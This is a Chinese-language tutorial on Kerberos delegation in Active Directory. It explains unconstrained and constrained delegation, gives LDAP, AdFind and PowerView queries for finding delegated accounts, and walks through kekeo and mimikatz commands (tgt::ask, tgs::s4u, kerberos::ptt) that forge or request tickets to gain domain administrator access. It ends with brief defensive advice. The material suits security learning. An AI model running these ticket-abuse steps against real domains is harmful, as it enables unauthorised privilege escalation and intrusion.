

Kerberos委派攻击学习
前言
域委派是大型网络中经常部署的应用模式，给多跳认证带来很大的便利，同时也带来很大的安全隐患，利用 委派可获取域管理员权限，甚至制作深度隐藏的后门域委派是指将域内用户的权限委派给服务账号，使得服务账号能以用户权限开展域内活动。
域委派的基本过程
委派（Delegation）是kerberos相对于NTLM认证独有的特性，指的是A可以让B“代理”自己去访问C服务，说是代理，也可以理解为“假冒”。
具体为：域中A使用Kerberos身份验证访问域中的服务B，而B再利用A的身份去请求域中的服务C，因为用的是A的身份，所以只有A有权限访问C的时候，委派才能成功。

一个域内普通用户jack通过Kerberos协议认证到前台WEB服务后，前台运行WEB服务的服务账号websvc模拟（ Impersonate）用户jack，以Kerberos协议继续认证到后台服务器，从而在后台服务器中获取jack用户的访问权限，即域中跳或者多跳的Kerberos认证。
- 域内用户jack以Kerberos方式认证后访问Web服务器；
- Web服务以websvc服务账号运行，websvc向KDC发起jack用户的票据申请。
- KDC检查websvc用户的委派属性，如果被设置， 则返回jack用户的可转发票据TGT；
- websvc收到jack用户TGT后，使用该票据向KDC 申请访问文件服务器的服务票据TGS；
- KDC检查websvc的委派属性，如果被设置，且申请的文件服务在允许的列表清单中，则返回一个jack用户 访问文件服务的授权票据TGS；
- websvc收到的jack用户的授权票据TGS后，可访问文件服务，完成多跳认证。
委派分类
非约束性委派
非约束性委派(Unconstrained Delegation)，服务账号可以获取某用户的 TGT，从而服务账号可使用该 TGT，模拟用户访问任意服务
如果某个服务 A 的服务账号 B 被设置为非约束委派，当用户 C 通过 Kerberos 认证访问服务 A 时，KDC 会检查服务账号 B 的属性，发现是非约束性委派时，KDC 会将用户 C 的 TGT 放在 TGS 中，这样 B 在验证 TGS 的同时获取了 A 用户的 TGT，从而可以模拟用户 A 访问任意服务
- 用户向KDC请求可转发TGT，记为TGT1
- KDC返回TGT1
- 用户通过TGT1向KDC请求转发TGT2
- KDC返回TGT2
- 用户通过TGT1向KDC申请访问服务1的RST
- KDC返回RST
- 用户发送RST、TGT1、TGT2和TGT2的SessionKey给服务1
- 服务1通过用户的TGT2请求KDC，以用户名义请求服务2的RST（服务访问票据）
- KDC给服务1返回服务2的RST
- 服务1以用户名义向服务2发出请求
- 服务2响应服务1的请求
- 服务1响应用户第7步骤的请求
这个流程有一个问题：TGT2是不被限制的，服务1完全可以用它来请求访问任何想访问的服务。攻击其实就是利用的这点，使用从高权限账户处得到的TGT去获取权限。
约束性委派
因为非约束委派很不安全，所以微软又发布了约束委派，区别在于不会直接把TGT给服务，所发送的认证信息中包含了允许访问的服务，即不允许服务代表用户去访问其他服务。
其实现主要依靠一组kerberos扩展：S4U2Self（Service for User to Self）和S4U2Proxy（Service for User to Proxy）
流程如下：
- 用户向服务1发出请求
- 在此之前服务1已经得到了用户访问服务1的TGT，接下来通过S4U2self扩展模拟用户向KDC请求ST
- KDC返回给服务1一个用于验证服务1的ST
- 服务1使用第三步的ST响应用户的请求
- 用户再次向服务1发起请求，委派服务1访问服务2，条件是服务1验证通过且有有效的TGT，以及服务1有用户到服务1的可转发ST，即ST1
- 服务1通过S4U2Proxy扩展请求KDC返回一个用于验证服务2的ST，即ST2
- KDC在验证PAC的数字签名后,如果没有失败（成功或没有PAC），将返回ST2给服务1
- 服务1代表用户使用ST2请求服务2，服务2判断此用户是否经过KDC验证，依据为ST2中的cname和crealm标识
- 服务2响应服务1的请求
- 服务1响应用户请求
查找具有委派属性的服务账号
非约束委派的查找
ldapsearch
kali上自带，适合在域外查询
这个参数过多就不一一列举了，需要查阅的ldapsearch -h即可
查找域中配置非约束委派的用户：
1 | ldapsearch -x -H ldap://192.168.141.145:389 -D "CN=qiyou,CN=Users,DC=qiyou,DC=com" -w password -b "DC=qiyou,DC=com" "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" |grep -iE "distinguishedName" |
过滤条件
1 | (&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288)) |
查找域中配置非约束委派的主机：
1 | ldapsearch -x -H ldap://192.168.141.145:389 -D "CN=qiyou,CN=Users,DC=qiyou,DC=com" -w password -b "DC=qiyou,DC=com" "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" |grep -iE "distinguishedName" |
注：域控主机账户默认开启非约束委派
过滤条件
1 | (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) |
注：更多LDAP的过滤语法请参考微软的手册：地址
注：区别服务用户和主机的区别是samAccountType=805306368 (0x30000000)时为用户，samAccountType=805306369 (0x30000001)时为主机
ADFind
使用参数
1 | AdFind [switches] [-b basedn] [-f filter] [ list] |
参数说明：
- -b：指定要查询的根节点
- -f：LDAP过滤条件
- attr list：需要显示的属性
查找域中配置非约束委派的用户：
1 | AdFind.exe -b "DC=qiyou,DC=com" -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" distinguishedName |
查找域中配置非约束委派的主机：
1 | AdFind.exe -b "DC=qiyou,DC=com" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" distinguishedName |
PowerView
查找域中配置非约束委派用户
1 | Get-NetUser -Unconstrained -Domain qiyou.com |select name |
查找域中配置非约束委派的主机：
1 | Get-NetComputer -Unconstrained -Domain qiyou.com |
查询域中配置非约束委派的主机（另外一个版本的powerview）：
1 | Get-DomainComputer -Unconstrained -Properties distinguishedname,useraccountcontrol -Verbose | ft -Wrap -AutoSize |
约束委派的查找
ldapsearch
查找域中配置约束委派用户
1 | ldapsearch -x -H ldap://192.168.141.145:389 -D "CN=qiyou,CN=Users,DC=qiyou,DC=com" -w password -b "DC=qiyou,DC=com" "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" |grep -iE "distinguishedName|allowedtodelegateto" |
过滤条件
1 | (&(samAccountType=805306368)(msds-allowedtodelegateto=*)) |
查找域中配置约束委派的主机：
1 | ldapsearch -x -H ldap://192.168.141.145:389 -D "CN=qiyou,CN=Users,DC=qiyou,DC=com" -w password -b "DC=qiyou,DC=com" "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" |grep -iE "distinguishedName|allowedtodelegateto" |
过滤条件
1 | (&(samAccountType=805306369)(msds-allowedtodelegateto=*)) |
ADFind
查找域中配置约束委派用户
1 | AdFind.exe -b "DC=qiyou,DC=com" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" distinguishedName msds-allowedtodelegateto |
查找域中配置约束委派的主机：
1 | AdFind.exe -b "DC=qiyou,DC=com" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" distinguishedName msds-allowedtodelegateto |
PowerView
注：Powerview有两个版本，一个在dev分支：地址，一个在master分支：地址
查找域中配置约束委派用户
1 | Get-DomainUser –TrustedToAuth -domain qiyou.com -Properties distinguishedname,useraccountcontrol,msds-allowedtodelegateto|fl |
查找域中配置约束委派的主机：
1 | Get-DomainComputer -TrustedToAuth -Domain qiyou.com -Properties distinguishedname,useraccountcontrol,msds-allowedtodelegateto|ft -Wrap -AutoSize |

基于委派的攻击方法
1.已知被设置非约束性委派属性的服务账号的口令明文，则可以获取域管理权限
现在已知域内服务账号 sqlsvc 的口令明文，则可使用 keke 工具构造 sqlsvc 服务账号的票据。
cmd
1 | tgt::ask /user:sqlsvc /domain:testlab.com /passw ord:1qaz@WSX3edc /ticket:sqlsvc.kirbi |
由于 sqlsvc 被设置为非约束性委派，因此可以利用刚才伪造的 sqlsvc 票据，向域服务器发起申请访问域服务器 CIFS 服务的管理员权限的 TGS 的命令
cmd
1 | Tgs::s4u /tgt:service_account_tgt_file /user:administrator@testlab.com /service:service_to_access |
此时内存中已经有了访问域服务器 CIFS 服务的域管理员的 TGS 票据，需要将该票据注入当前的会话中，使用 mimikatz 的 kerberos::ptt 命令可完成票据的注入。注入票据后，当前的会话具备了访问域服务器 C 盘目录的权限
2.已控制非约束性委派服务账号所在的服务器
攻击者控制了服务器，与样例 1 类似。由于攻击者控制了服务器，可直接利用 mimikatz 从内存获取服务账号的 TGT，所以可以省去 tgt::ask 步骤，直接从 tgs:s4u 步骤开始，后续和样例 1 相同
3.已获取配置了约束性委派的服务账号的口令 NTLM
和样例 1 相同，样例 1 用明文口令生成 NTLM，然后向域服务器申请获取服务账号的 TGT。Kekeo 提供了该功能 ，可直接从 NTLM 开始，向域服务器申请 TGT。
4.一个主机账号被设置了约束性委派，已获取该主机账号的口令NTLM
方法和样例 1 也是类似，只不过样例 1 中是服务账号，而本样例中是主机账号。测试结果截图分别如下，不再过多解释。测试可在任何域内主机中进行，不需要在主机账号所在的主机。
委派攻击的防御
通过上文中说到设置了非约束委派的账户权限如果被窃取那么攻击者可能获取非常多其他账户的TGT，所以最好是不要在域中使用非约束委派这种功能。
域中不需要使用委派的账户特别是administrator账户，设置为“敏感用户不能被委派”。